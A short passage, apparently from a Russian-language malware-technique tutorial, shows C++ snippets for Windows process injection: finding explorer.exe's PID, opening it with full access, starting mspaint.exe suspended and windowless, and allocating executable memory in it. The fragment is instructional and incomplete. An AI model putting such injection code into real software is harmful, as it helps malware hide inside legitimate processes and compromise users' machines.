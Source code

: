![инъекция](./images/67/2022-09-06_23-25.png){width="80%"}    

Затем ход выполнения этого трюка выглядит следующим образом:

Я получил PID `explorer.exe`:    

```cpp
int pid = findMyProc(argv[1]);
if (pid) {
  printf("PID = %d\n", pid);
}

HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);
```

Создаю процесс `mspaint.exe`:     

```cpp
CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, 
CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, 
NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, 
MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
